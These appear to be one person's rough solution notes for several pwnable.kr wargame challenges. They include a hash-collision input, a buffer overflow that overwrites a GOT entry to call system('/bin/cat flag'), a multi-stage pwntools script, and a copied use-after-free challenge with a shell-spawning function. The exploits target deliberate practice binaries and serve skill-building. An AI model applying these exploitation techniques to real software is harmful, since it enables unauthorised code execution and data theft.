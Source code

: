 1. fd
- use stdin

---

2. col 
- 0x21DD09EC / 5

PL ./col `python -c 'print "\xc8\xce\xc5\x06"*4  +"\xcc\xce\xc5\x06"'`

Entry point address:               0x44a4f0q

3.BOF


338150 => 528E6
13371337 => CC 07C9

system(/bin/cat flag) => 0x080485e3	"\xe3\x85\x04\x08" = 134514147
 0x080485e3
fflush : 0x8048430 => "\x30\x84\x04\x08"
passcode1 = 6*4 = stack end - 24 100 `76`

(python -c 'print "A" *96 +"\x30\x84\x04\x08" + "134514147"') | ./passcode

0x528e6  => \xe6\x28\x05\x00
0xCC07C9 => \xc9\x07\xcc\x00

---

4. (upx -d flag; gdb flag, follow flag)

---

5. key ^ rand() = 0xdeadbeef = 1101 1110 1010 1101 1011 1110 1110 1111
when key = 0    key ^ rand() = 0110 1011 1000 1011 0100 0101 0110 0111
                             = 1011 0101 0010 0110 1111 1011 1000 1000 = B526 FB88 (3039230856)

---

6. random
-> Not so random with constant seed

---

7. input
PL : mkdir /tmp/qpalzmm22; cd /tmp/qpalzmm22
PL : vi exploit.py

```python
from pwn import *


# Stage 1
s1 = []
s1 = [str(i) for i in range (100)]
s1[ord('A')] = "\x00"
s1[ord('B')] = "\x20\x0a\x0d"
s1[ord('C')] = "48000"

# Stage 2

with open('./stderr', 'a') as f:
        f.write('\x00\x0a\x02\xff')

# Stage 3

envdic = {"\xde\xad\xbe\xef" : "\xca\xfe\xba\xbe"}

# Stage 4

with open('./\x0a','w') as f:
        f.write('\x00\x00\x00\x00')

# Stage 5


sh = process(executable = "/home/input2/input", argv=s1, stderr=open('./stderr'), env=envdic )

sh.send("\x00\x0a\x00\xff")

client_con = remote('localhost', 48000)
client_con.send("\xde\xad\xbe\xef")

sh.interactive()
```
PL : ln -s ~/flag flag; python exploit.py
    ANS : Mommy! I learned how to pass various input in Linux :)


```c    
int main(int argc, char* argv[], char* envp[]){
    printf("Welcome to pwnable.kr\n");
    printf("Let's see if you know how to give input to program\n");
    printf("Just give me correct inputs then you will get the flag :)\n");

    // argv
    if(argc != 100) return 0;                         // 6   
    if(strcmp(argv['A'],"\x00")) return 0;            // 65 : 0
    if(strcmp(argv['B'],"\x20\x0a\x0d")) return 0;    // 66 : 0xd0a20
    printf("Stage 1 clear!\n");
        // `python -c 'print "A"*64+"\x00"+"\x20\x0a\x0d"+"\x00"'`

    // stdio
    char buf[4];
    read(0, buf, 4);                                
    if(memcmp(buf, "\x00\x0a\x00\xff", 4)) return 0;
    read(2, buf, 4);
    if(memcmp(buf, "\x00\x0a\x02\xff", 4)) return 0;
    printf("Stage 2 clear!\n");

    // env
    if(strcmp("\xca\xfe\xba\xbe", getenv("\xde\xad\xbe\xef"))) return 0;
    printf("Stage 3 clear!\n");

    // file
    FILE* fp = fopen("\x0a", "r");
    if(!fp) return 0;
    if( fread(buf, 4, 1, fp)!=1 ) return 0;
    if( memcmp(buf, "\x00\x00\x00\x00", 4) ) return 0;
    fclose(fp);\
    printf("Stage 4 clear!\n");

    // network
    int sd, cd;
    struct sockaddr_in saddr, caddr;
    sd = socket(AF_INET, SOCK_STREAM, 0);
    if(sd == -1){
            printf("socket error, tell admin\n");
            return 0;
    }
    saddr.sin_family = AF_INET;
    saddr.sin_addr.s_addr = INADDR_ANY;
    saddr.sin_port = htons( atoi(argv['C']) );
    if(bind(sd, (struct sockaddr*)&saddr, sizeof(saddr)) < 0){
            printf("bind error, use another port\n");
            return 1;
    }
    listen(sd, 1);
    int c = sizeof(struct sockaddr_in);
    cd = accept(sd, (struct sockaddr *)&caddr, (socklen_t*)&c);

    if(cd < 0){
            printf("accept error, tell admin\n");
            return 0;
    }
    if( recv(cd, buf, 4, 0) != 4 ) return 0;
    if(memcmp(buf, "\xde\xad\xbe\xef", 4)) return 0;
    printf("Stage 5 clear!\n");

    // here's your flag
    system("/bin/cat flag");
    return 0;
}
```

---

16.

gdb) info functions
0x000000000040117a  Human::give_shell()
3
3
3
```cpp
#include <fcntl.h>
#include <iostream>
#include <cstring>
#include <cstdlib>
#include <unistd.h>
using namespace std;

class Human{
private:
        virtual void give_shell(){
                system("/bin/sh");
        }
protected:
        int age;
        string name;
public:
        virtual void  (){
                cout << "My name is " << name << endl;
                cout << "I am " << age << " years old" << endl;
        }
};

class Man: public Human{
public:
        Man(string name, int age){
                this->name = name;
                this->age = age;
        }
        virtual void introduce(){
                Human::introduce();
                cout << "I am a nice guy!" << endl;
        }
};

class Woman: public Human{
public:
        Woman(string name, int age){
                this->name = name;
                this->age = age;
        }
        virtual void introduce(){
                Human::introduce();
                cout << "I am a cute girl!" << endl;
        }
};

int main(int argc, char* argv[]){
        Human* m = new Man("Jack", 25);
        Human* w = new Woman("Jill", 21);

        size_t len;
        char* data;
        unsigned int op;
        while(1){
                cout << "1. use\n2. after\n3. free\n";
                cin >> op;

                switch(op){
                        case 1:
                                m->introduce();
                                w->introduce();
                                break;
                        case 2:
                                len = atoi(argv[1]);
                                data = new char[len];
                                read(open(argv[2], O_RDONLY), data, len);
                                cout << "your data is allocated" << endl;
                                break;
                        case 3:
                                delete m;
                                delete w;
                                break;
                        default:
                                break;
                }
        }

        return 0;
}
```




bluekat

ghidra 설치